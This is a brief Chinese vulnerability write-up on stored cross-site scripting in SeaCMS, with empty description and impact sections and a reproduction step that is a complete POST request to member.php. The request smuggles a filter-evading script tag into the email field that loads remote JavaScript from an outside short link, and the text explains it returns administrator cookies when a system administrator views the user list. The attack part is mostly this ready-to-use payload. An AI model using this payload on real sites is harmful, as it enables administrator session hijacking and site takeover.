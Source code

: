 ```yaml
---
title: Seacms储存型xss
id: zhfly3111
---
```


# Seacms 储存型xss

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

```
POST /member.php?action=chgpwdsubmit `oldpwd=test&newpwd=test&newpwd2=test&email=test%[40test.com](http://40test.com)<scbase64ript src=https://url.cn/585l00F></scrbase64ipt>&nickname=&gaimi=%E7%A1%AE%E8%AE%A4%E4%BF%AE%E6%94%B9` 
```

> src的值为`http://target.0-sec.org/test.js`的短链接

当后台浏览到后台界面时，会触发漏洞，反弹回来Cookie，但需要注意两点，第一，只有系统管理员才能看到用户界面，普通管理员是没有这个权限的。